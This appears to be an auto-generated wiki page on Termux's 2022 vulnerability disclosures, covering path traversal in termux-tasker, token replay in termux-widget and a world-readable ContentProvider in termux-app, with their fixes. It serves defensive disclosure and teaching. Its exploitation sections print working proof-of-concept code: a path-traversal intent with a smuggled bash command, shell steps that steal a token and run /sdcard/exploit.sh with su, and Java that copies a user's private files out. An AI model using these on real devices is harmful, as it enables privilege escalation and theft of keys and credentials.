






<!-- source: DeepWiki mcp.deepwiki.com · repo termux/termux.github.io · page 7.2 Past Vulnerability Disclosures · fetched 2026-10-26 -->

# Past Vulnerability Disclosures

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [_data/posts/t/cn/views.yml](_data/posts/t/cn/views.yml)
- [_data/sitemap.yml](_data/sitemap.yml)
- [_posts/cn/apps/2022-02-25-termux-tasker-v0.6.0-release.md](_posts/cn/apps/2022-02-25-termux-tasker-v0.6.0-release.md)
- [_posts/cn/security/2022-02-15-termux-apps-vulnerability-disclosures.md](_posts/cn/security/2022-02-15-termux-apps-vulnerability-disclosures.md)
- [_posts/en/apps/2022-02-25-termux-tasker-v0.6.0-release.md](_posts/en/apps/2022-02-25-termux-tasker-v0.6.0-release.md)
- [_posts/en/general/2024-11-11-termux-selected-for-nlnet-ngi-mobifree-grant.md](_posts/en/general/2024-11-11-termux-selected-for-nlnet-ngi-mobifree-grant.md)
- [_posts/en/security/2022-02-15-termux-apps-vulnerability-disclosures.md](_posts/en/security/2022-02-15-termux-apps-vulnerability-disclosures.md)
- [assets/posts/globals/general/2022-02-15-termux-apps-vulnerability-disclosures/Termux_Tasker_Exploit.tsk.xml](assets/posts/globals/general/2022-02-15-termux-apps-vulnerability-disclosures/Termux_Tasker_Exploit.tsk.xml)
- [en/security-incident-response-checklist.md](en/security-incident-response-checklist.md)
- [en/security.md](en/security.md)

</details>


## Purpose and Scope

This page documents the major security vulnerabilities that have been discovered and fixed in Termux applications, including technical details of the vulnerabilities, their exploitation methods, and the fixes implemented. This serves as a historical record for security researchers and maintainers to understand past security issues and learn from them.

For information about the current vulnerability disclosure policy and how to report security issues, see [Vulnerability Disclosure Policy](#7.1). For the incident response process, see [Security Incident Response](#7.3).

The vulnerabilities documented here were publicly disclosed on 2022-02-15, 30 days after the release of fixes in `termux-app` v0.118.0, `termux-tasker` v0.5, and `termux-widget` v0.13.0.

**Sources:** [en/security.md:1-114](), [_posts/en/security/2022-02-15-termux-apps-vulnerability-disclosures.md:1-263]()

---

## Vulnerability Summary

The following table summarizes the three major vulnerabilities disclosed in February 2022:

| Vulnerability | Affected Component | CVE/Advisory | Severity | Affected Versions | Fixed Version | Impact |
|--------------|-------------------|--------------|----------|-------------------|---------------|---------|
| Privilege Escalation via Path Traversal | `termux-tasker` | N/A | Critical | v0.1 - v0.4 (2016-12-26 to 2020-12-06) | v0.5 (2020-12-07) | Arbitrary command execution in termux/root context |
| Token-Based Privilege Escalation | `termux-widget` | N/A | High | v0.3 - v0.12 (2015-12-20 to 2021-09-22) | v0.13.0 (2021-09-23) | Arbitrary script execution by launcher apps |
| World-Readable Files via ContentProvider | `termux-app` | N/A | High | v0.47 - v0.117 (2017-02-28 to 2022-01-07) | v0.118.0 (2022-01-08) | Unauthorized read access to all termux files |

**Sources:** [_posts/en/security/2022-02-15-termux-apps-vulnerability-disclosures.md:1-263]()

---

## Vulnerability 1: Termux:Tasker Privilege Escalation

### Technical Overview

The `termux-tasker` plugin allowed execution of scripts from the `~/.termux/tasker` directory to enable Tasker automation. However, the `FireReceiver` class failed to validate the canonical path of executables, allowing path traversal attacks to execute arbitrary commands in the termux context or even root context if termux had been granted root permissions.

The vulnerability existed in [termux-tasker/app/src/main/java/com/termux/tasker/FireReceiver.java:50]() where the executable path was processed without canonical path verification.

### Attack Vector Diagram



**Sources:** [_posts/en/security/2022-02-15-termux-apps-vulnerability-disclosures.md:24-65]()

### Exploitation Details

Any application could send an intent to `com.termux.tasker.FireReceiver` without requiring any permissions. The attack exploited the lack of canonical path validation:

```java
// Malicious intent construction (not from codebase, for illustration)
Intent intent = new Intent("com.twofortyfouram.locale.intent.action.FIRE_SETTING");
intent.setClassName("com.termux.tasker", "com.termux.tasker.FireReceiver");

Bundle bundle = new Bundle();
bundle.putString("com.termux.tasker.extra.EXECUTABLE", "../../../usr/bin/bash");
bundle.putString("com.termux.execute.arguments", 
    "-c \"echo -n 'I am '; whoami; touch exploit-file;\"");
bundle.putBoolean("com.termux.tasker.extra.TERMINAL", true);
bundle.putInt("com.termux.tasker.extra.VERSION_CODE", 4);

intent.putExtra("com.twofortyfouram.locale.intent.extra.BUNDLE", bundle);
context.sendBroadcast(intent);
```

A proof-of-concept Tasker task demonstrating this exploit is available at [assets/posts/globals/general/2022-02-15-termux-apps-vulnerability-disclosures/Termux_Tasker_Exploit.tsk.xml:1-328]().

**Sources:** [_posts/en/security/2022-02-15-termux-apps-vulnerability-disclosures.md:34-64](), [assets/posts/globals/general/2022-02-15-termux-apps-vulnerability-disclosures/Termux_Tasker_Exploit.tsk.xml:1-328]()

### Fix Implementation

The vulnerability was fixed through a dual-layer security model:

#### Layer 1: Runtime Permission Requirement

The `FireReceiver` now requires the `com.termux.permission.RUN_COMMAND` dangerous permission to receive intents. This is enforced in [termux-tasker/app/src/main/AndroidManifest.xml:45]() and the permission is published by [termux-app/app/src/main/AndroidManifest.xml:16]().

#### Layer 2: Canonical Path Validation

The `FireReceiver` implementation was updated in [termux-tasker/app/src/main/java/com/termux/tasker/FireReceiver.java:70]() to:
1. Resolve the canonical path of the executable
2. Verify it is within `~/.termux/tasker` directory
3. Optionally allow external paths if user explicitly sets `allow-external-apps=true` in `~/.termux/termux.properties`



**Sources:** [_posts/en/security/2022-02-15-termux-apps-vulnerability-disclosures.md:51-58](), [_posts/en/apps/2022-02-25-termux-tasker-v0.6.0-release.md:1-128]()

### Security Implications

This vulnerability highlighted a fundamental design flaw in Android plugin architectures. The Tasker `locale` plugin protocol, created around 2008 before runtime permissions existed, allows any app to send intents to plugin receivers. This is especially concerning for plugins with privileged permissions (device admin, accessibility services, etc.). 

For example, the `SecureTask` plugin with device admin permissions could be exploited by any app to wipe the device without user interaction.

**Sources:** [_posts/en/security/2022-02-15-termux-apps-vulnerability-disclosures.md:60-64]()

---

## Vulnerability 2: Termux:Widget Token Vulnerability

### Technical Overview

The `termux-widget` app used a token-based security model to validate launcher shortcut execution. However, the implementation had two critical flaws:

1. Static shortcuts created via `TermuxCreateShortcutActivity` sent the token to the launcher app in the shortcut intent
2. The `TermuxLaunchShortcutActivity` did not validate the canonical path of the executable before passing it to `TermuxService`

Once a malicious launcher or app obtained the token (by creating any shortcut), it could execute arbitrary commands by sending custom paths like `/sdcard/exploit.sh`.

### Token Generation and Validation Flow



The vulnerable code flow was:
- [termux-widget/app/src/main/java/com/termux/widget/TermuxLaunchShortcutActivity.java:23]() - Token generation
- [termux-widget/app/src/main/java/com/termux/widget/TermuxCreateShortcutActivity.java:50]() - Token sent in shortcut
- [termux-widget/app/src/main/java/com/termux/widget/TermuxLaunchShortcutActivity.java:39]() - Token validation
- [termux-widget/app/src/main/java/com/termux/widget/TermuxLaunchShortcutActivity.java:51]() - No path validation before execution

**Sources:** [_posts/en/security/2022-02-15-termux-apps-vulnerability-disclosures.md:69-76]()

### Exploitation Proof of Concept

The exploitation process:

1. Install `termux-widget` v0.12 or earlier
2. Create any shortcut to obtain the token: `touch ~/.shortcuts/tasks/test`
3. Extract token from SharedPreferences: `cat /data/data/com.termux.widget/shared_prefs/token.xml`
4. Create exploit script: `echo 'whoami; su -c whoami; sleep 5' > /sdcard/exploit.sh`
5. Execute exploit:

```bash
am start --user 0 \
  -n com.termux.widget/.TermuxLaunchShortcutActivity \
  -d /sdcard/exploit.sh \
  --es com.termux.shortcut.token 22e30b81-5d67-4ee3-be0e-66169f637025
```

Or via Java:

```java
Intent intent = new Intent();
intent.setClassName("com.termux.widget", "com.termux.widget.TermuxLaunchShortcutActivity");
intent.setData(Uri.parse("/sdcard/exploit.sh"));
intent.putExtra("com.termux.shortcut.token", "22e30b81-5d67-4ee3-be0e-66169f637025");
startActivity(intent);
```

**Sources:** [_posts/en/security/2022-02-15-termux-apps-vulnerability-disclosures.md:77-100]()

### Fix Implementation

The fix involved three major changes:

#### Change 1: Pinned Shortcuts for Android 8+

On Android 8+, the app now uses `ShortcutManager` APIs to create pinned shortcuts instead of static shortcuts. With pinned shortcuts:
- The launcher does not receive the shortcut data (including the token)
- Android OS stores the shortcuts securely
- The launcher cannot modify or replay the shortcut intent

#### Change 2: Token Invalidation

All existing tokens and static shortcuts were invalidated in v0.13.0 to ensure previously compromised tokens cannot be used. This forced users on Android 8+ to recreate shortcuts using the safer pinned shortcut API.

#### Change 3: Canonical Path Validation

The code now validates paths before execution:
- [termux-widget/app/src/main/java/com/termux/widget/TermuxWidgetProvider.java:183]() - Canonical path resolution
- [termux-widget/app/src/main/java/com/termux/widget/TermuxWidgetService.java:30]() - Filter invalid shortcuts from display
- [termux-widget/app/src/main/java/com/termux/widget/TermuxWidgetProvider.java:186]() - Block execution of paths outside allowed directories

Shortcuts are only allowed if their canonical path is under `~/.shortcuts` or `~/.termux` directory.



**Sources:** [_posts/en/security/2022-02-15-termux-apps-vulnerability-disclosures.md:102-111]()

---

## Vulnerability 3: ContentProvider World-Readable Files

### Technical Overview

The most severe vulnerability allowed any app to read all files under `/data/data/com.termux/files` without requiring any permissions. The root cause was a dummy permission `android.permission.permRead` used in the ContentProvider declaration.

The vulnerability existed in [termux-app/app/src/main/AndroidManifest.xml:171]() where the ContentProvider had:

```xml
<provider
    android:name=".TermuxOpenReceiver$ContentProvider"
    android:authorities="com.termux.files"
    android:readPermission="android.permission.permRead"
    android:grantUriPermissions="true" />
```

The permission `android.permission.permRead` was never published by the Termux app. This allowed any malicious app to simply declare this permission in its own manifest:

```xml
<permission
    android:name="android.permission.permRead"
    android:protectionLevel="normal" />

<uses-permission android:name="android.permission.permRead" />
```

Once the malicious app declared and granted itself this permission, it could access any file through the ContentProvider at [termux-app/app/src/main/java/com/termux/app/TermuxOpenReceiver.java:177]().

**Sources:** [_posts/en/security/2022-02-15-termux-apps-vulnerability-disclosures.md:117-126]()

### Attack Surface Diagram



**Sources:** [_posts/en/security/2022-02-15-termux-apps-vulnerability-disclosures.md:117-126]()

### Exploitation Details

The exploitation was trivial. Any app could read termux files with the following code:

```java
private void runTermuxContentProviderReadCommand(Context context) {
    Uri uri = Uri.parse("content://com.termux.files/data/data/com.termux/files/home/.bashrc");
    InputStream inputStream = null;
    FileOutputStream fileOutputStream = null;

    try {
        inputStream = context.getContentResolver().openInputStream(uri);
        File outFile = new File(Environment.getExternalStorageDirectory(), "bashrc.txt");
        fileOutputStream = new FileOutputStream(outFile);
        byte[] buffer = new byte[4096];
        int readBytes;
        while ((readBytes = inputStream.read(buffer)) > 0) {
            fileOutputStream.write(buffer, 0, readBytes);
        }
    } catch (Exception e) {
        e.printStackTrace();
    } finally {
        // Close streams
    }
}
```

The only limitation was that files were read-only because `TermuxOpenReceiver$ContentProvider.openFile()` returned `ParcelFileDescriptor.MODE_READ_ONLY`. This prevented write access but all sensitive data (SSH keys, GPG keys, credentials, bash history, etc.) remained exposed.

**Sources:** [_posts/en/security/2022-02-15-termux-apps-vulnerability-disclosures.md:129-163]()

### Fix Implementation

The fix involved three coordinated changes:

#### Fix 1: Replace Dummy Permission

The dummy `android.permission.permRead` was replaced with `com.termux.permission.RUN_COMMAND` in [termux-app/app/src/main/AndroidManifest.xml:155](). This reuses the same permission required for the RUN_COMMAND intent and other plugin operations, making it easier for third-party apps to request a single permission for all termux integrations.

#### Fix 2: Enable Write Access

The file mode was changed from `ParcelFileDescriptor.MODE_READ_ONLY` to support multiple modes via `ParcelFileDescriptor.parseMode()` in [termux-app/app/src/main/java/com/termux/app/TermuxOpenReceiver.java:196](). Apps with the `RUN_COMMAND` permission can now both read and write termux files through the ContentProvider.

Example write access code:

```java
Uri uri = Uri.parse("content://com.termux.files/data/data/com.termux/files/home/test.sh");
ParcelFileDescriptor pfd = context.getContentResolver().openFileDescriptor(uri, "wt");
FileOutputStream fos = new FileOutputStream(pfd.getFileDescriptor());
BufferedWriter writer = new BufferedWriter(new OutputStreamWriter(fos));
writer.write("echo 'some script'\n");
writer.flush();
```

#### Fix 3: Require allow-external-apps Property

ContentProvider access is now only allowed if the user explicitly sets `allow-external-apps=true` in `~/.termux/termux.properties`. This gives users control over whether external apps can access termux files. Additionally, write access to `~/.termux/termux.properties` itself was blocked to prevent apps from modifying termux settings.



**Sources:** [_posts/en/security/2022-02-15-termux-apps-vulnerability-disclosures.md:176-251]()

### Impact Assessment

The disclosure emphasized that:

> **All private files like security keys for `ssh` or encryption keys should be assumed to be compromised for users who were using termux app version `<= v0.117`**

Users were advised to:
1. Replace all SSH keys and encryption keys with new ones
2. Review authorized access logs on remote servers for suspicious activity
3. Check for any unauthorized access to services connected from termux

The vulnerability had been present for nearly 5 years (2017-02-28 to 2022-01-08), potentially exposing all termux users during this period.

**Sources:** [_posts/en/security/2022-02-15-termux-apps-vulnerability-disclosures.md:253-257]()

---

## Coordinated Disclosure Timeline

The disclosure followed responsible disclosure practices with the following timeline:

| Date | Event |
|------|-------|
| 2020-12-07 | `termux-tasker` v0.5 released with fixes |
| 2021-09-23 | `termux-widget` v0.13.0 released with fixes |
| 2021-08-17 | Google Play Store builds deprecated (banner added in termux-tools) |
| 2022-01-08 | `termux-app` v0.118.0 released with ContentProvider fix |
| 2022-02-15 | Public disclosure (30 days after v0.118.0 release, ~150 days after deprecation notice) |

The 30-day delay after the final fix release and ~150 days after the deprecation of Google Play Store builds ensured users had adequate time to update before public disclosure. The disclosure was posted at [en/posts/security/2022/02/15/termux-apps-vulnerability-disclosures.html]() and excluded from the main sitemap to avoid prominent search indexing while remaining accessible via direct link.

**Sources:** [_posts/en/security/2022-02-15-termux-apps-vulnerability-disclosures.md:9-12](), [_data/sitemap.yml:1-8]()

---

## Lessons Learned

Several important security lessons emerged from these vulnerabilities:

### Plugin Architecture Vulnerabilities

The Tasker plugin ecosystem's design allows any app to send intents to plugin receivers, creating a systemic security risk. Plugins with privileged permissions (device admin, accessibility, etc.) are particularly vulnerable. A proper solution would require token-based validation in the plugin protocol itself.

### Dummy Permissions Anti-Pattern

Using undeclared "dummy" permissions like `android.permission.permRead` creates a false sense of security. Since Android allows any app to declare any permission name, these dummy permissions provide no actual protection. Always publish custom permissions explicitly.

### Canonical Path Validation

Path traversal vulnerabilities can be prevented by consistently validating canonical paths against allowed base directories before executing or accessing files.

### Defense in Depth

The final fix implementations employed multiple security layers (permission requirements, path validation, user opt-in settings) rather than relying on a single control. This defense-in-depth approach provides better security against future bypass attempts.

### Long-Term Exposure Risk

The ContentProvider vulnerability existed for nearly 5 years before discovery and disclosure, highlighting the importance of regular security audits even for established codebases.

**Sources:** [_posts/en/security/2022-02-15-termux-apps-vulnerability-disclosures.md:60-64](), [_posts/en/security/2022-02-15-termux-apps-vulnerability-disclosures.md:253-261]()

---

